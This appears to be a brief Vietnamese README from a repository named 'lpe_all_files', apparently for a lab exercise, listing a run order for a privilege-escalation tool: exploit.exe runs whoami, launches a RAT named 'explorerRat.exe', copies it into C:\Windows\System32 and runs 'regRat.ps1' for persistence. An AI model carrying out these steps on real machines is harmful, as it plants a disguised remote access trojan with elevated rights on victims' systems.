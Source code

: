 # lpe_all_files



clone từ level 3 thành 1 máy level 4 riêng <br>
Thứ tự chạy: 
- Chạy exploit.exe -c whoami
- Chạy exploit.exe -c "./explorerRat.exe"
- Chạy exploit.exe -c "cp explorerRat.exe C:\Windows\System32"
- Chạy exploit.exe -c "./regRat.ps1"
